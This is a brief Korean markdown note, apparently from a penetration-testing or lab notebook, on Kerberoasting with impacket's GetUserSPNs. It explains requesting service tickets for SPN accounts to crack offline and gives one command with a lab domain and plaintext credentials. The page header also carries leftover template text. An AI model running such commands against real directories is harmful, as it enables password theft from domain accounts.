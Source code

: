 ```yaml
---
layout: page
title: GetUserSPNs
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


- **목적:** 서비스 주체 이름(SPN)이 등록된 계정을 찾아 서비스 티켓을 요청하고, 이를 오프라인에서 크랙하여 계정의 비밀번호를 알아냅니다.
- ---

```bash
impacket-GetUserSPNs -dc-ip $target 'vulnnet-rst.local/t-skid:tj072889*' -request
```


